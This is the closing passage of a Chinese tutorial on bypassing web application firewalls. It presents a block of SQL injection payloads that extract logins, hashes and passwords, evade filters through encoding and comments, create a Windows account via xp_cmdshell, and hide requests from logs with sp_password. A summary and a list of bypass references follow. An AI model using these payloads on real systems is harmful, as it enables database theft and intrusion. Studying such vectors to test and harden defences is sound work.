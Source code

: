 ```

/?id=1+union+(select'1',concat(login,hash)from+users)
/?id=(1)union(((((((select(1),hex(hash)from(users))))))))

?id=1'; /*&id=1*/ EXEC /*&id=1*/ master..xp_cmdshell /*&id=1*/ net user lucifer UrWaFisShiT /*&id=1*/ --
id=10 a%nd 1=0/(se%lect top 1 ta%ble_name fr%om info%rmation_schema.tables)
id=10 and 1=0/(select top 1 table_name from information_schema.tables)

id=-725+UNION+SELECT+1,GROUP_CONCAT(id,0x3a,login,0x3a,password,0x3a,email,0x3a,access_level),3,4,5+FROM+Admin--
id=-725+UNION+SELECT+1,version(),3,4,5--sp_password //使用sp_password隐藏log中的请求

```

0x05 本文小结
---------

* * *

本文内容到这里内容差不多就算是完了回顾一下本文内容主要从三个方面展开绕过WAF的方法、Filter的实现机制和Evasion措施、测试示例和向量。本文的第二部分”绕过WAF的方法“花了较多时间需要参照已有的总结进行自己的总结并给出示例第三、四两部分更多的是粘贴已收集到的向量因此较快。本文内容和篇幅较多涉及信息量很大但是仍有许多不完善或遗漏的地方。

最后再说一下昨天晚上和园长谈及本文内容时他表示像缓冲区溢出绕过waf这些针对的是传统的waf而且关键字替换也不仅仅是处理select这么简单现在一种很重要的处理方式是编码笔者听后确实感觉受教了。需要进一步学习的还有很多很多云waf和传统waf之间千丝万缕的关系也还有待进一步去了解。前几天朋友说前几天他现在过滤都不太使用正则表达式了那样效率太低使用抽象语法树AST检测SQL注入曾经以为只有学院派会使用的现在已经发生在身边了。

笔者作为新手抱着学习的态度写出本文希望懂这方面的朋友前辈可以多指点。

0x06 参考资料
---------

* * *

WAF介绍http://www.nsfocus.com/waf/jishu/js_01.html

WAF实现扫描器识别http://drops.wooyun.org/tips/730　

WAF的绕过技巧http://drops.wooyun.org/tips/132

绕过waf的笔记http://fuck.0day5.com/?p=622

SQL注入中的WAF绕过技术http://netsecurity.51cto.com/art/201301/376869.htm

浅谈WAF的绕过http://netsecurity.51cto.com/art/201212/374068.htm　　

SQL注入攻防入门详解(MS SQL)http://www.2cto.com/Article/201211/165466.html    

Beyond SQLi: Obfuscate and Bypass http://www.exploit-db.com/papers/17934/

从基础到高级的waf绕过方法http://gnahackteam.wordpress.com/2012/07/06/basic-to-advanced-waf-bypassing-methods/　

Bypass WAFhttp://www.surfthecyber.com/2013/05/how-to-bypass-waf-web-application.html

WAF Bypassing: SQL Injection (forbidden or not?)http://www.r00tsec.com/2011/07/sql-injection-bypass-waf.html

WAF filter evasionhttp://sla.ckers.org/forum/read.php?24,33903
